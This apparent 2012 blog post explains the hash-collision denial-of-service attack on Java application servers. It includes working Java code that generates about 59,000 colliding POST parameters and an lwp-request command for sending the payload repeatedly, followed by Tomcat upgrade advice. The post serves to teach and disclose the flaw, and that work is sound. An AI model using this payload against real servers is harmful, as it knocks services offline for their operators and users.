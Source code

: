 ```yaml
---
title: Hash collisions are a hell of a thing
date: 2012-03-08
published: true
---
```


A few months ago, Julian Wälde and Alexander Klink presented at [28C3](http://events.ccc.de/congress/2011/Fahrplan/events/4680.en.html) about an exploit that can cause a server to see 99% CPU utilization. I hadn't heard of the attack until a coworker of mine showed me the [nruns article on the subject](http://www.nruns.com/_downloads/advisory28122011.pdf). We decided to have a little fun and see what we could do. This blog will show how to use a version of Julian and Alexander's attack in Java.

## A new attack you say?

Actually, not quite. This attack was identified back in 2003, but it seems like it just disappeared even though just about every language has this weakness, since most of them use hashtables for POST parameters. Note that this isn't even a distributed DoS! And that's not even the best part - with any half-decent residential connection, you can likely transmit enough data to lock down *entire servers.*  And no, I didn't add an extra s to servers!

## Hash collisions?

The way many application servers work (from here on out I'll focus on Java and Apache Tomcat, but this theory applies to many) when you submit parameters in a POST is to put them in a hash table. The default limit for POST request sizes is generally 2MB. What we'll do next is show how to generate a message to bring a server to its knees.

## Non randomized hashcode functions are bad, mmk?

The details of how Java hashcode works boils down to using DJBX33A with mutliplication constant 31 and a start value of 0, and if you're interested, some Googling will show you details. For our purposes, it's enough to know that the (extremely short) strings "Aa" and "BB" hash to the same value. ("C#" shares the hash too, but we'll ignore it for our purposes) Even more importantly, there's an easy way to generate permutations of these two tokens that will share a hash as well! Considering we have 2MB to work with, some math will show us that if we use 32-character long strings, we will be able to get a query constructed that causes *65,536* keys to hash to the same value! Since we're using 2 character tokens, the number of permutations can be calculated with the formula 2^n, where n is the number of spots (16 in our case).

## You found colliding hashes! Congratulations!

The key is that you're generating ~65k keys that *ALL* hash to the same value, which makes processing take ridiculous amounts of time. My residential internet that costs less than $40 a month has 250KB/s upload. Trasmitting a 2MB POST at this rate takes a whopping eight seconds. So how long does this POST take to process? Inserting into a HashMap that has a key collision takes O(n^2) time. Since every single key we generate will collide, that's 65k^2, which is a lot of comparisons.

## Stop talking, show me some cool stuff already

Well, fine!

```java
String[] tokens = {"Aa", "BB"};

int spots = 16;

// We'll keep track of permutations per "level" (amount of tokens)
List<String>[] permutations = new ArrayList[spots];
for (int i = 0; i < permutations.length; i++) {
  permutations[i] = new ArrayList<String>();
}

// The first level of tokens is just "Aa" and "BB"
for (int j = 0; j < 2; j++) {
  permutations[0].add(tokens[j]);
}

// Generate all combinations with duplicates
// First level: AaAa AaBB BBAa BBBB
// Second level: AaAaAa AaAaBB AaBBAa AaBBBB ....
for (int i = 1; i < spots; i++) {
  for (String permutation : permutations[i-1]) {
    // Yo dawg, I heard you like loops
    for (int j = 0; j < 2; j++) {
      String newPermutation = permutation + tokens[j];
      permutations[i].add(newPermutation);
    }
  }
}

for (int i = 0; i < 59000; i++) {
  System.out.println(permutations[permutations.length - 1].get(i) + "=1&");
}
```

Like I mentioned earlier, Java's hashing has an interesting property here. At any given level, EVERY combination generated will hash to the exact same thing. At the 16th level (32 bytes per key), we have 2^16 (65,536) combinations to work with. This gives us just over 2MB of keys. However, we can't just submit a list of keys; we need values to tie them to. The smallest number of bytes then is is 35, which would be `<key>=1&`. So, 2^16 * 32 / 35 = 59,918. Leaving some extra room for fun, let's call it 59,000 keys. So now, you can generate a POST that's just at 2MB for our particular attack. Save that to a file, and then run:

    lwp-request -m POST localhost < attack.txt

at some interval. Congratulations on DoSing just about every Java application server on the Internet! I tried this locally, and with 59,000 arguments running through a Spring application, I locked one of my four cores at 100% for...

wait for it...

well, I don't actually know. I got tired of waiting after **10 minutes** had passed. I didn't have my laptop's power cable at home, and my battery was about to run out. However, it utilized 100% of the a core for at LEAST ten minutes. I'm tempted to try this on a production box, but I've been able to successfully channel my inner Good Guy Greg and refrain so far.

## Now what?

Excellent question! If you're running Tomcat, upgrade to either 7.0.23 or 6.0.35. These will limit the number of POST parameters to 10k, which Apache claims is small emough to prevent this attack. The article mentions a couple of other workarounds as well. The moral of the story is you <s>can't trust the system</s> should go make sure your application servers are up to date or implement a work around!

## Java sucks and you're a bad person!

Okay :(

## What about other languages?

A 2MB POST takes SIX HOURS to parse in Ruby! Python by default limits POSTs to 1MB, but that still takes 7 minutes to parse! This is pretty much language agnostic if you can figure out a way to generate colliding hashes!

## Extra credit

Careful readers will have noted the third colliding hash in the Java example ("C#"). As it turns out, you can do an attack with 3^n collisions instead of the one I demonstrated above at 2^n! This is obviously better as you can fit more (shorter) colliding keys into the same amount of space (2MB). For the theory behind that, definitely go check out the [original presentation](http://events.ccc.de/congress/2011/Fahrplan/events/4680.en.html) and [nruns' great article](http://www.nruns.com/_downloads/advisory28122011.pdf).
